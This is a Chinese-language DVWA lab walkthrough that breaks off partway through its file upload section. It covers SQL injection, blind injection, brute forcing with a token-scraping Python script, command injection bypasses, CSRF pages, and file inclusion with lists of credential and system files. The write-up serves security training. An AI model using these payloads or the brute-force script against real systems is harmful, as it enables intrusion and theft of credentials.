





# sql injection：

## low

首先，通过返回的报错信息判断是否存在注入点，并判断注入点的类型是`数字型`还是`字符型`。

```mysql
# 判断注入可以直接输入'或1’
# 首先判断是否为数字型的
1 and 1=1					# 有返回
1 and 1=2					# 有返回
# 证明该处的逻辑后台并没有进行处理

# 测试字符型
1' and '1'='1 		# 有返回
1' and '1'='2			# 无返回
# 证明这里的逻辑后台处理了，因此判断该处为字符型注入
```



知道存在字符型注入点，现在要测试有几个字段，构造sql语句：

```mysql
1' order by 3;#
1' order by 2;#
```





通过二分法判断，最后得出查询的字段有两个。

接下来我们就可以通过联合查询来对这两个位置进行注入。

```mysql
# 查询数据库版本
1' union select 1,version();#
```



```mysql
# 查询数据库名
1' union select 1,database();#
```


```mysql
# 查询dvwa数据库的表名称
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa';#
```


```mysql
# 查询表users的列
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users';#
```


```mysql
# 查询user、password的内容
1' union select user,password from users;#
```


## Medium

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysql_real_escape_string( $id );

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Display values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    //mysql_close();
}

?>
```

观察页面，发现是通过下拉框来点击选择ID，我们有bp抓包，发现通过POST请求将ID传递给服务器，因此我们可以通过hack bar修改POST请求包进行注入。

源码发现中间通过函数`mysql_real_escape_string()`将特殊的字符全部转义了，所以我们可以通过十六进制绕过。

## High

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Get values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    mysql_close();
}

?>
```

可以发现在sql语句中添加了`limit 1`限制了返回的数据只有一条。我们可以在查询语句中通过将后面的语句注释掉来进行绕过。

这里提交sql语句和查询结果显示的界面不在一块，是为了防止一般的sqlmap注入。

## Impossible

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

首先添加了`Anti-CSRF token`，又对输入的id判断是否为数字，是数字才能进行下一步的操作，并且使用了PDO对sql语句进行了预编译。最后查询结果必须只有一条，才进行输出。

# SQL Injection（Blind）

## low

SQL Injection（Blind），即SQL盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是SQL盲注。

基本的盲注有时间盲注，bool盲注。

#### bool盲注：

因为返回的只有是或否，所以我们可以通过bool值进行判断。

```mysql
1' and user()='root@localhost';
1' and user() like 'ro%';
```

#### 时间盲注：

时间盲注中，我们通过判断返回的时候是否执行了函数sleep。我们通过if来进行判断，如果判断值为真，执行sleep函数，如果判断为假，不执行sleep函数。

```mysql
and if(ascii(mid(select group_concat(column_name) from information_schema.columns where table_schema =0x73716C74657374 and table_name =0x61646D696E), 1, 1)) = 0,sleep(5),1);

```

拆解上面的sql语句，就是执行select语句，查询结果从第一个位置取其ascii码与0进行比较，若返回真，执行slee(5)，若返回假，返回1。

# Brute Force

## low

我们可以采用Burp suite抓包后，进行字典暴力破解。



可以根据返回的`length`进行判断，只有`admin/password`的长度和别的不同，打开发现，登录成功。

## medium

```php
<?php
if( isset( $_GET[ 'Login' ] ) ) {
    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = mysql_real_escape_string( $user );

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = mysql_real_escape_string( $pass );
    $pass = md5( $pass );

    // Check the database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
        // Get users details
        $avatar = mysql_result( $result, 0, "avatar" );

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        sleep( 2 );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    mysql_close();
}

?>
```

查看源码，发现函数`mysql_real_escape_string()`，作用是转义 SQL 语句中使用的字符串中的特殊字符（\x00，\n，\r，\，‘，“，\x1a）。基本可以抵抗SQL注入。

并且在验证错误的时候，会`sleep(2)`睡眠两秒，但任然可以和low级一样，进行bp的爆破。

## high

```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = stripslashes( $user );
    $user = mysql_real_escape_string( $user );

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = mysql_real_escape_string( $pass );
    $pass = md5( $pass );

    // Check database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
        // Get users details
        $avatar = mysql_result( $result, 0, "avatar" );

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

`stripslashes()`:去除string中的反斜杠`\`。

`mysql_real_escape_string()`:转义 SQL 语句中使用的字符串中的特殊字符（\x00，\n，\r，\，‘，“，\x1a）。

还用了`Anti-CSRF token`抵御CSRF。

然后我们再在网页的源码中发现隐藏的`user_token`。

我们尝试提交一次请求，发现url中含有参数`user-token`。

因此，判断该登录的逻辑为，后台通过`generateSessionToken()`产生token，然后传递到前端隐藏掉，在发起登录请求时，将`user_token`也传到后端，然后进行check，因此，爆破的时候不能再用bp进行。

通过python脚本来进行爆破，先请求服务器获得token，然后开始爆破。

```python
# 还可以将该脚本改成多线程的形式，加快速度

from bs4 import BeautifulSoup
import requests

header = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh,en;q=0.9,zh-CN;q=0.8',
    'Cache-Control': 'no-cache',
    'Connection': 'keep-alive',
    'Cookie': 'security=high; PHPSESSID=364ucqbn2j1mucgtmkpes17fd1',
    'Host': '172.16.34.167',
    'Pragma': 'no-cache',
    'Referer': 'http://172.16.34.167/dvwa/vulnerabilities/brute/',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36'
}

requrl = 'http://172.16.34.167/dvwa/vulnerabilities/brute/'


def get_token(requrl, header):
    resp = requests.get(requrl, headers=header)
    print(resp.status_code, len(resp.content))
    soup = BeautifulSoup(resp.content, 'html.parser')
    input = soup.select('input[type=hidden]')
    user_token = input[0]['value']
    return user_token


user_token = get_token(requrl, header)
i = 0

with open(file='/Users/optimus/tools/dict/passwords_quick.txt', 'r') as f:
    for line in f.readlines():
        requrl = 'http://172.16.34.167/dvwa/vulnerabilities/brute/?username=admin&password=' + \
            line + '&Login=Login&user_token=' + user_token
        i += 1
        print(i, 'admin', line.strip(), end='  ')
        user_token = get_token(requrl, header)
        if(i == len(f.readlines())):
            break

```

运行结果：


通过返回长度，可以判断`账号/密码`:`admin/password`。

## Impossible

```php
<?php

if( isset( $_POST[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_POST[ 'username' ];
    $user = stripslashes( $user );
    $user = mysql_real_escape_string( $user );

    // Sanitise password input
    $pass = $_POST[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = mysql_real_escape_string( $pass );
    $pass = md5( $pass );

    // Default values
    $total_failed_login = 3;
    $lockout_time       = 15;
    $account_locked     = false;

    // Check the database (Check user information)
    $data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' );
    $data->bindParam( ':user', $user, PDO::PARAM_STR );
    $data->execute();
    $row = $data->fetch();

    // Check to see if the user has been locked out.
    if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
        // User locked out.  Note, using this method would allow for user enumeration!
        //echo "<pre><br />This account has been locked due to too many incorrect logins.</pre>";

        // Calculate when the user would be allowed to login again
        $last_login = $row[ 'last_login' ];
        $last_login = strtotime( $last_login );
        $timeout    = strtotime( "{$last_login} +{$lockout_time} minutes" );
        $timenow    = strtotime( "now" );

        // Check to see if enough time has passed, if it hasn't locked the account
        if( $timenow > $timeout )
            $account_locked = true;
    }

    // Check the database (if username matches the password)
    $data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', $user, PDO::PARAM_STR);
    $data->bindParam( ':password', $pass, PDO::PARAM_STR );
    $data->execute();
    $row = $data->fetch();

    // If its a valid login...
    if( ( $data->rowCount() == 1 ) && ( $account_locked == false ) ) {
        // Get users details
        $avatar       = $row[ 'avatar' ];
        $failed_login = $row[ 'failed_login' ];
        $last_login   = $row[ 'last_login' ];

        // Login successful
        echo "<p>Welcome to the password protected area <em>{$user}</em></p>";
        echo "";

        // Had the account been locked out since last login?
        if( $failed_login >= $total_failed_login ) {
            echo "<p><em>Warning</em>: Someone might of been brute forcing your account.</p>";
            echo "<p>Number of login attempts: <em>{$failed_login}</em>.<br />Last login attempt was at: <em>${last_login}</em>.</p>";
        }

        // Reset bad login count
        $data = $db->prepare( 'UPDATE users SET failed_login = "0" WHERE user = (:user) LIMIT 1;' );
        $data->bindParam( ':user', $user, PDO::PARAM_STR );
        $data->execute();
    }
    else {
        // Login failed
        sleep( rand( 2, 4 ) );

        // Give the user some feedback
        echo "<pre><br />Username and/or password incorrect.<br /><br/>Alternative, the account has been locked because of too many failed logins.<br />If this is the case, <em>please try again in {$lockout_time} minutes</em>.</pre>";

        // Update bad login count
        $data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' );
        $data->bindParam( ':user', $user, PDO::PARAM_STR );
        $data->execute();
    }

    // Set the last login time
    $data = $db->prepare( 'UPDATE users SET last_login = now() WHERE user = (:user) LIMIT 1;' );
    $data->bindParam( ':user', $user, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到，`Impossible`在`high`的基础上，增加了登录失败次数的检测，登录失败次数超了3次，将会将账号锁定15秒。而且使用了PDO（PHP Data Object）机制来抵御SQL注入，PDO扩展已经封装了SQL的语句，没有办法打破SQL语句的结构来执行想要的结果，一次也避免了SQL注入。

# Command Injection

## low

这里我们要熟悉两种符号：

| 符号 | 含义                                         | 例子                     |
| ---- | -------------------------------------------- | ------------------------ |
| ｜   | 管道，将前面的输出作为后面的输入。           | ls \| more               |
| &    | 前面一个执行完，执行后面的                   | ls & cd ..               |
| &&   | 当前面的执行成功后才执行后面的，否则不再执行 | touch 1.txt && cat 1.txt |
| ;    | 无论前一个执行完没有，后面的接着执行         | ls ; cd ..               |

在这里，我们直接通过`&`可以实现命令行注入。

`127.0.0.1 & dir`


## Medium

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

分析源码，我们可以看到，将输入的`&&`和`;`都过滤掉了，因此无法用这两种符号来进行命令行注入。

但是我们还可以利用`&`来进行注入。

输入：`127.0.0.1&dir`


还有一种绕过方法是：`127.0.0.1&;&net user`。

因为会将`;`替换为空，因此输入变为了`127.0.0.1&&net user`。

## high

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

我们可以看到，这里过滤的符号更多。

```php
'&'  => '',
';'  => '',
'| ' => '',
'-'  => '',
'$'  => '',
'('  => '',
')'  => '',
'`'  => '',
'||' => '',
```

这里进一步完善了黑名单，但是仔细观察可以发现，第三个`| `是在竖线后面多了一个空格，所以我们依然可以绕过。

`127.0.0.1|net user`


## Impossible

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

分析源码：

`stripslashes()`:删除反斜杠`\`。

`explode()`:将字符串打散成列表。

可以发现添加了`Anti-CSRF token`，每次都会随机一个token和服务端check。

并且将输入的字符串通过`.`打散，然后判断列表的每一个元素是否为数字，若都为数字再组合成ip地址的形式。

因此不存在命令行注入。

# CSRF(跨站请求伪造)

## low

我们首先要了解CSRF具体指的是什么，我们可以理解为当用户A登录了网站B，攻击者C知道网站B的一项功能的请求url，那么攻击者A构造这一url，发送给用户A，用户A点击该链接，产生的行为就是在用户A未知的情况下，伪造A的身份进行的操作，可以是改密码，转账等敏感行为。

在实践中，我们使用的url为：`http://172.16.34.167/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change`

直接访问这个链接的话，很明显这个链接的目的是更改密码，因此我们可以用短链接的形式来隐藏真实的url。但是访问后，仍会显示更改密码成功后的页面，因此，我们可以构造一个exp页面来实现攻击。

```html
<html>
	<head>
    <title>404</title>
  </head>
  <body>
    
    <h1>404</h1>
  	<h2>
      file not found.
    </h2>
  </body>
</html>
```


## medium

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = mysql_real_escape_string( $pass_new );
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    mysql_close();
}

?>
```

这里用`eregi()`比较`$_SERVER['SERVER_NAME']`和`$_SERVER['HTTP_REFERER']`是否相同，也就是判断`request`头中的`referer`中是否有`host`。若不同的话，不会进行之后的操作。

因此我们需要使来源网站包含目标ip，即`172.16.34.167`，所以我们将exp网页的名字改为`172.16.34.167.html`即可。


## High

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

我们可以看到这里是添加了一个`Anti-CSRF token`，每次访问都会产生一个随机值，我们在更改密码时都需要提交这个随机值和服务器上的进行匹配。

之前找到的ifram获取token的方法，尝试之后发现因为同源策略的问题，没有办法获取到，因此需结合其他方法获得。

# File Inclusion

## low

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

我们首先点击file1.php，观察包含文件在url中。


因此我们可以构造url中的参数，找服务器中的敏感文件。

我们首先输入一个`http://172.16.34.167/dvwa/vulnerabilities/fi/?page=/etc/passwd`

可以看到报错信息，发现网站存放的绝对路劲。


以下贴出查到的一些敏感文件。

Windows:

```powershell
c:/boot.ini #查看系统版本 
c:/windows/php.ini #php配置信息 
c:/windows/my.ini #MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码 
c:/winnt/php.ini 
c:/winnt/my.ini 
c:\mysql\data\mysql\user.MYD #mysql.user表中的数据库连接密码 
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini #存储了虚拟主机网站路径和密码 
c:\Program Files\Serv-U\ServUDaemon.ini 
c:\windows\system32\inetsrv\MetaBase.xml #查看IIS的虚拟主机配置 
c:\windows\repair\sam #WINDOWS系统初次安装的密码 
c:\Program Files\ Serv-U\ServUAdmin.exe #6.0版本以前的serv-u管理员密码 
c:\Program Files\RhinoSoft.com\ServUDaemon.exe 
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件  #存储了pcAnywhere的登陆密码 
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf #查看WINDOWS系统apache文件 
c:/Resin-3.0.14/conf/resin.conf #查看jsp开发的网站resin文件配置信息. 
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf #查看linux系统配置的JSP虚拟主机 
d:\APACHE\Apache2\conf\httpd.conf 
C:\Program Files\mysql\my.ini 
C:\mysql\data\mysql\user.MYD #存在MYSQL系统中的用户密码 
C:\Windows\System32\drivers\etc\hosts
winserver配置
Telnet信息
```

Linux/Unix:

```shell
/usr/local/app/apache2/conf/httpd.conf #apache2缺省配置文件  
/usr/local/apache2/conf/httpd.conf  
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf #虚拟网站设置  
/usr/local/app/php5/lib/php.ini #PHP相关设置 
/etc/sysconfig/iptables #从中得到防火墙规则策略  
/etc/httpd/conf/httpd.conf #apache配置文件  
/etc/rsyncd.conf #同步程序配置文件  
/etc/my.cnf #mysql的配置文件  
/etc/redhat-release #系统版本  
/etc/issue  
/etc/issue.net

etc/passwd #存储操作系统用户信息,该文件为所有用户可见
用户名: 密码 : uid  : gid :用户描述：主目录：登陆shell
密码：x表示暗文,相反为明文

uid：userid,”0”为root ID.1-99为系统保留,分配给系统预定义帐号。Linux用户可以分为3类：超级用户（root）、管理用户和普通用户
 
　　伪用户（psuedo users）
　　　　bin #拥有可执行的用户命令文件
　　　　sys #拥有系统文件
　　　　adm #拥有账户文件
　　　　uucp #UUCP使用
　　　　Ip #Ip或lpd子系统使用
　　　　nobody #NFS使用
　　　　audit
　　　　cron
　　　　mail
　　　　usenet

gid:字段记录的是用户所属的用户组。对应着/etc/group文件中的一条记录
　用户描述：字段记录着用户的一些个人情况，例如用户的真实姓名、电话、地址等
　　
  主目录：用户的起始工作目录
　
  登陆shell：
　　　　　　常用shell - sh(BourneShell),csh(CShell),ksh(KornShell),tcsh(TENEX/TOPS-20typeCShell),bash(BourneAgainShell)
　　　　　　/bin/sh #默认登录Shell   /sbin/nologin #代表用户不能登录
 
/etc/shadow
username: passwd: lastchg: min: max: warn: inactive: expire: flag
登录名:加密口令:最后一次修改时间:最小时间间隔:最大时间间隔:警告时间:不活动时间:失效时间:标志

口令 - 加密后的用户口令字，13个字符；如果为空/用户没有口令；如含有不属于集合{./0-9A-Za-z}中的字符/用户不能登录
最后一次修改时间 - 表示的是从某个时刻起，到用户最后一次修改口令时的天数。时间起点对不同的系统可能不同
最小时间间隔 - 两次修改口令之间所需的最小天数
最大时间间隔 - 口令保持有效的最大天数
警告时间  - 从系统开始警告用户到用户密码正式失效之间的天数
不活动时间 - 用户没有登录活动但账号仍能保持有效的最大天数
失效时间 - 账号的生存期。
保留条目 - 无用字段


/etc/group 存储有关本地用户组的信息
一个组中可以有多个用户，一个用户也可以属于不同的组。当一个用户同时是多个组中的成员时，在/etc/passwd文件中记录的是登录时所属的默认组
用户要访问属于附加组的文件时，必须首先使用newgrp命令使自己成为所要访问的组中的成员
1）groupname GID #组名
2）password #密码位置
3）GID #组ID
4）user #组成员


 
/usr/local/app/php5/lib/php.ini #PHP相关设置 
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf #虚拟网站设置 
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf #linux APACHE虚拟主机配置文件 
/usr/local/resin-3.0.22/conf/resin.conf #3.0.22的RESIN配置文件 
/usr/local/resin-pro-3.0.22/conf/resin.conf /usr/local/app/apache2/conf/extra/httpd-vhosts.conf #APASHE虚拟主机
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf #linux APACHE虚拟主机配置文件 
/usr/local/resin-3.0.22/conf/resin.conf #3.0.22的RESIN配置文件
/usr/local/resin-pro-3.0.22/conf/resin.conf /usr/local/app/apache2/conf/extra/httpd-vhosts.conf #APASHE虚拟主机 
/etc/sysconfig/iptables #查看防火墙策略 
/root/.mysql_history、/root/.bash_history      #Mysql账号密码信息
```

我们在这里还可以利用路径回溯：`../../../../`来寻找敏感文件。

> 在php的环境下，我们还可以读取php.ini，来查看php的配置。
>
> php版本小于5.3.4，并且Magic_quote_gpc为off时，可以使用%00截断。
>
> 当配置中，allow_url_fopen与allow_url_include开启时，还可以包含远程服务器的文件，若对文件还没有检查，可导致远程代码执行。

## Medium

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

可以看到，对传入参数进行了过滤，将`http://`、`https://`、`../`、`..\`都进行了过滤，替换为空。

我们可以使用双写的方法进行绕过。如：

`htthttps://ps://`

`..././`

## High

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

发现通过`fnmatch()`只能包含file开头的文件，那么我们可以通过file协议来进行绕过。

> http://172.16.34.167/dvwa/vulnerabilities/fi/page=file:///C:/flag/flag.txt

然后是任意代码执行，需要结合文件上传，然后找到上传文件的绝对路径，将文件用file协议包含进来。

## Impossible

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

使用了白名单的手段，只允许`include.php`、`file1.php`、`file2php`、`file3.php`。

# File Upload

## low

low等级的没有任何的过滤和防护，所以首先尝试上传一句话，发现没法上传，可能和php的版本问题有关，我们之后又上传探针，成功。


## Medium

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

我们可以看到源码中添加了过滤，只能上传类型为`image/jpeg`或`image/png`，并且文件的大小要小于`100000`。

考虑用bp抓包，然后更改`Content-Type`为`image/jpeg`来尝试绕过。


成功上传。

## High

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
